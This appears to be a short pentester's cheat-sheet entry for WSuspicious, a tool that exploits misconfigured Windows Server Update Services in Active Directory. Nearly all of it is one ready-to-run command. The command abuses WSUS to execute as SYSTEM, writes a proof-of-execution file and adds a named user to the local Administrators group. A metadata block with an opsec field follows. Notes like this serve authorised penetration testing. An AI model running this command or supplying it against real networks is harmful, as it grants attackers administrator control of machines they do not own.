 # WSuspicious

## [[09.AD Misconfigurations/WSUS]] [[Misconfigurations/WSUS]]
1. Add user to Admin and drop file as confirmation:
    ```bash
    .\WSuspicious.exe /command:" -accepteula -s -d cmd /c ""echo eop_executed > C:\\eop_poc.txt; net localgroup Administratoren ext_nviso_user /add""" /autoinstall
    ```

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/GoSecure/WSuspicious
description: WSUS exploitation tool
```